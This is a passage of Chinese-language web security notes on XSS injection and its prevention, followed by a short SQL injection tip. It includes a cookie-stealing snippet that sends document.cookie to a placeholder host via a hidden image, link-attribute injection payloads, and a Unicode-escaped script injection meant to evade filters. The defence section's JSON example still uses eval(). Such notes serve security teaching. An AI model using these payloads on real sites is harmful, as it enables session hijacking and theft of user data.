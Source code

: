 **js注入成功, `img.href`隐藏并注入**
```javascript
var img = document.createElement('img');
img.src='http://www.xss.com?cookie='+document.cookie;
img.style.display='none';
document.getElementsByTagName('body')[0].appendChild(img);
```

###### 上传文件注入
- js注入文件名
- js注入`exif`信息

###### 链接注入
**普通链接注入**
```javascript
http://www.baidu.com/“onclick=alert('xss') title="xss"
```
**`"` `'` 被转意但是依然注入**
```javascript
http://www.baidu.com/#"onclick=alert(this.name) name=xss ref=xss
```

##### Ajax JSON注入
###### 采用普通注入
```javascript
$('div:first').html('<script>alert("xss")</script>');
```
###### 采用`Unicode码`注入
```javascript
$('div:first').html('\u003c\u0073\u0063\u0072\u0069\u0070\u0074\u003e\u0061\u006c\u0065\u0072\u0074\u0028\u0022\u0078\u0073\u0073\u0022\u0029\u003c\u002f\u0073\u0063\u0072\u0069\u0070\u0074\u003e');
```

#### 防范XSS注入
- 添加一个输入值检查
  - 黑名单： 在这种方法中，黑名单中的所有字符都会从输入中过滤掉。黑名单所面临的最大的挑战就是要确保所有危险的字符都包含在名单中。因为要预测到所有可能的输入组合是不可能的，所以黑名单经常不能实现正确的验证。
  - 白名单： 这种替代方法列出所有允许的字符并从输入中移除所有其它的字符。白名单所面临的最大的挑战就是在保持列表尽可能简短的同时，仍然能够提供足够的灵活性，允许 Web 应用程序所需的输入类型。
人们通常认为白名单是更加安全的选择。因此，推荐您使用白名单来清除具有潜在危险性的输入。
 
**对发送给浏览器并在其上显示的字符串中的特殊字符（比如说把小于号 (<) 换成 "&lt;"）进行转义是增强安全性的另一种方法。**
- 使用漏洞检查工具 
- 不要动态地生成和执行代码, 禁止使用`eval()` 
- 在集成不可信内容时使用 `<iframe>`, 利用同源策略使攻击者不容易访问整个`DOM`树
- 保障 JSON 的使用安全(使用正则表达式进行检查 或者 使用 JSON 解析器对 JSON 进行解析。)

```javascript
// 使用正则表达式检查 JSON 字符
var my_JSON_object = !(/[^,:{}\[\]0-9.\-+Eaeflnr-u \n\r\t]/.test(  
  text.replace(/"(\\.|[^"\\])*"/g, ' '))) &&  
  eval('(' + text + ')');  
```
 

### SQL注入
不要使用拼接字符串的方式进行`CRUD`, 进行数据库参数化查询, 页面参数传值只允许`a-z0-9`,对传入参数进行校验, 本地数据库不要存储重要数据

